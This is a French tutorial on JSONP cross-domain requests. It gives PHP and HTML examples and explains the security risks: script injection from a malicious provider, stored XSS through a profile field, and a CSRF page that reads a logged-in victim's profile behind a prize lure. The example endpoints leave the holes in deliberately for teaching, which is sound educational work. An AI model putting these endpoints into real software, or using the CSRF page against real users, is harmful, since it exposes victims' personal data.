







# Requêtes inter-site avec JSONP

JSONP \(JSON with Padding\) est une technique permettant de rendre possible une requête inter-domaine  en "lecture" \(qui contourne donc la protection imposée par SOP\). Pour fonctionner, cette technique utilise la balise `<script>` \(et non l'objet `XHMLHttpRequest`\). SOP permet d'embarquer une ressource de type script comme déjà vu précédemment.


JSONP ne devrait plus être utilisée de nos jours puisque les navigateurs modernes gèrent très bien les requêtes cross-domain grâce au mécanisme qu'est CORS.


## Implémentation

Comme souvent, un exemple d'implémentation va permettre plus facilement de comprendre comment JSONP fonctionne. Admettons que l'objectif soit que le domaine \(sous-domaine plus exactement, mais cela ne change rien à l'exemple\) `poc2.cybersecurity.com` puisse récupérer les données du profil de l'utilisateur de `poc1.cybersecurirty.com` et ce de manière légitime \(il peut par exemple s'agit d'un partenariat, ou de deux applications d'une même entreprise\).

### Côté serveur

Sur `poc1.cybersecurirty.com` , le serveur héberge la page `jsonp.php` suivante :

```php
<?php
  session_start();

  $profile = '{ "username":"' . $_SESSION['username'] . '", "firstname":"' . $_SESSION['firstname'] . '", "lastname":"' . $_SESSION['lastname'] . '", "address":"' . $_SESSION['address'] . '", "email":"' . $_SESSION['email'] . '" }';
  echo "myFunc(" . $profile . ");";   
?>
```

En résumé, on construit une payload JSON qui contient les informations de l'utilisateur \(à condition qu'il soit authentifié\). Si l'utilisateur visite directement cette page, la directive `echo` va afficher le nom de la fonction ainsi que la payload JSON. Comme on le verra par la suite, il s'agit en fait d'un appel à la fonction `myFunc()` à qui on fournit comme paramètre la payload JSON construite auparavant :



### Côté client

Le client \(qui souhaite donc récupérer les données du profil de l'utilisateur authentifié sur `poc1.cybersecurirty.com`\) va héberger la page suivante :

```markup
<!DOCTYPE html>
<html>
  <head>
    <title>Cross-domain request with JSONP</title>
  </head>

  <body>
    <h1>Recuperation des donnees de votre profil :</h1>

    <script>
      function myFunc(myObj) {
        document.write(myObj.username + ' | '  + myObj.firstname + ' | '  + myObj.lastname + ' | '  + myObj.address + ' | '  + myObj.email);
      }       
    </script>

    <script src="http://poc1.cybersecurity.com/same-origin-policy/jsonp.php"></script>
  </body>
</html>
```

Cette page embarque donc la ressource `poc1.cybersecurity.com/same-origin-policy/jsonp.php`. Il faut que le client déclare la fonction \(ici `myFunc()`\). La fonction récupère les informations désirées contenues dans l'objet `myObj` puis finalement les affichent.

Lorsque l'utilisateur visite cette page à l'adresse `http://poc2.cybersecurity.com/same-origin-policy/lecture_jsonp.html` son profil s'affiche :



`poc2.cybersecurity.com` peut donc récupérer des informations relatives à l'utilisateur, comme si une lecture était faite sur `http://poc1.cybersecurity.com/same-origin-policy/profile.php`.

### Fonction de callback

Admettons que le serveur ne souhaite pas transmettre tout le profil de l'utilisateur mais seulement quelques données. Par exemple, il souhaite que le client puisse demander seulement le pseudonyme de l'utilisateur ainsi que son adresse email. L'implémentation peut alors être la suivante :

```php
<?php
  session_start();

  if(isset($_GET['callback']) && $_GET['callback'] == "username") {
    $username = '{ "username":"' . $_SESSION['username'] . '"}';
    echo "getUsername(" . $username . ");";  
  }

  if(isset($_GET['callback']) && $_GET['callback'] == "email") {
    $email = '{ "email":"' . $_SESSION['email'] . '" }';
    echo "getEmail(" . $email . ");"; 
  }
?>
```

Côté client, la fonction de callback est un simple paramètre de la requête. Afin de ne demander que le pseudonyme de l'utilisateur le client va embarquer le script comme ceci :

```markup
<script>
  function getUsername(myObj) {
    document.write(myObj.username);
  }       
</script>
        
<script src="http://poc1.cybersecurity.com/same-origin-policy/jsonp.php?callback=username"></script>
```

## Problématiques de sécurité

Il y a principalement deux problématiques soulevées par l'utilisation de JSONP : la confiance que le client porte à la tierce partie \(au serveur qui transmet les données\) et les attaques CSRF.

### Confiance à une tierce partie

#### Administrateur malveillant

Imaginons que nous avons pleine confiance en la tierce partie, mais que l'administrateur du site soit malveillant. On aura aucun mal à comprendre l'ampleur des dégâts qu'il peut occasionner en envoyant non pas les données attendues mais du script malicieux ou effectuer une attaque par défacement. 

L'administrateur malicieux a par exemple modifié la fonction de callback `getUsername` comme ceci :

```php
if(isset($_GET['callback']) && $_GET['callback'] == "username") {
  $malicious = '{ "username":""}';
  echo "getUsername(" . $malicious . ");";  
}
```

Une petite surprise attendra l'utilisateur \(possédant un compte sur la tierce partie\) visitant la page appelant la fonction de callback :



#### Cas d'un utilisateur malveillant

Prenons le cas maintenant d'un utilisateur malveillant qui a repéré les différents appels ainsi que les données transitant entre la tierce partie et le client. Il décide de changer son prénom \(stocké dans le profil au niveau de la tierce partie\) afin d'inclure un script malicieux :



Afin de déclencher l'injection il lui suffit de visiter la page cliente :




Bien sur ici il s'injecte lui même, mais il lui suffira de trouver un moyen de l'exploiter contre une victime \(ici il s'agit d'une donnée stockée, donc un livre d'or, forum ou autre suffira amplement pour cela\)


### Cross-Site Request Forgery

Qu'est ce qui empêche un attaquant d'héberger une page malicieuse effectuant un attaque CSRF afin de récupérer les données de la victime ? Par exemple à l'adresse `http://poc1.malicious.com/same-origin-policy/malicious_jsonp.html` :

```markup
<!DOCTYPE html>
<html>
  <head>
    <title>CSRF with JSONP</title>
  </head>

  <body>
    <h1>Je recupere discretement vos donnees de profil</h1>

    <script>
      function getProfile(myObj) {
        console.log(myObj.username + ' | '  + myObj.firstname + ' | '  + myObj.lastname + ' | '  + myObj.address + ' | '  + myObj.email);
      }       
    </script>

    <p>Mais vous avez gagne un super iPhone X !!!</p>
    <script src="http://poc1.cybersecurity.com/same-origin-policy/jsonp.php?callback=profile"></script>
  </body>
</html>
```


Lorsque la victime va visiter la page malicieuse, l'attaquant va alors récupérer les données de son profil \(à condition que la victime soit authentifié sur le site vulnérable\) :



En effet, lorsque la victime visite la page malicieuse, son cookie de session est automatiquement envoyé dans la requête :




Il est possible de mettre en place une protection anti-CSRF en implémentant un jeton aléatoire qui devra être vérifier côté serveur, mais cette protection n'est pas optimale car le jeton est passé en paramètre GET \(JSONP n'est possible qu'avec des requêtes GET\).



